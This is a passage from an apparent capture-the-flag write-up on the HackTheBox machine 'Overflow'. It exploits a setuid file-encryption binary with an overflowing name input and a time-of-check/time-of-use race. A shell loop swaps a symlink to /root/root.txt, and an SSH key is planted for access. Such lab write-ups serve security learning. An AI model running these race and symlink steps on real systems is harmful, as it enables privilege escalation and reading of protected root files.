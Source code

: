 #### root.txt

There’s still the check preventing reading of files owned by root:

    
    
    tester@overflow:/opt/file_encrypt$ ./file_encrypt 
    This is the code 1804289383. Enter the Pin: -202976456
    name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV
    Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
    Enter Input File: /root/root.txt
    Enter Encrypted File: /tmp/root.txt
    File /root/root.txt is owned by root
    

To get around this, I’ll take advantage of a time of check/time of use
vulnerability here:

    
    
      if (stat_struct.st_uid == 0) {
        fprintf(stderr,"File %s is owned by root\n",user_infile);
                        /* WARNING: Subroutine does not return */
        exit(1);
      }
      sleep(3);
      fd_input = fopen(user_infile,"rb");
    

There are three seconds between when the ownership of the file is checked and
when the file is opened. To make this exploit reliable, I’ll add my ssh key to
tester’s `authorized_keys` file and get three ssh sessions.

I’ll work out of `/tmp/0xdf`. There are some protections in place that make
working out of just `/tmp` actually fail.

In the first window, I’ll run the following infinite loop:

    
    
    while :; do 
        rm l; 
        ln -sf /root/root.txt l; 
        sleep 3; 
        rm l; 
        echo "oops" > l; 
        sleep 3; 
    done
    

This will swap a file, `l`, between a symlink to `root.txt` and a file with
the string “oops” in it every three seconds.

In the next window, I’ll start a watch:

    
    
    tester@overflow:/tmp/0xdf$ watch -d -n 1 'ls -l o l'
    

This will run `ls -l o l` every second and give the results. This allows me to
see what `l` is currently.
